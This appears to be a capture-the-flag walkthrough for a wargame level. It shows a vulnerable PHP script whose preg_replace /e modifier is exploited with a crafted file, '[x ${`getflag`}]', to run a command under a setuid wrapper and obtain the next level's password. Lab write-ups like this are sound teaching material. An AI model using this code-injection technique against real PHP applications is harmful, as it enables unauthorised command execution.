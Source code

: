 ## Check files in home

ls -la

->  -rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
	-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php

## check level06.php, this files have permissions in flag06 when executed then

cat level06.php

```php
<?php
	function y($m) {
		$m = preg_replace("/\./", " x ", $m);
		$m = preg_replace("/@/", " y", $m);
		return $m;
	}
	function x($y, $z) {
		$a = file_get_contents($y);
		$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
		$a = preg_replace("/\[/", "(", $a);
		$a = preg_replace("/\]/", ")", $a);
		return $a;
	}
	$r = x($argv[1], $argv[2]); print $r;
?>
```

## create a file with an exploit to execute get flag in this line "$r = x($argv[1], $argv[2]); print $r;"

echo '[x ${`getflag`}]' > /tmp/exploit

## finally execute level06 script with the exploit file

./level06 /tmp/exploit

->  PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
	in /home/user/level06/level06.php(4) : regexp code on line 1

## Log in to user level07
su level07 (password: wiok45aaoguiboiki2tuin6ub)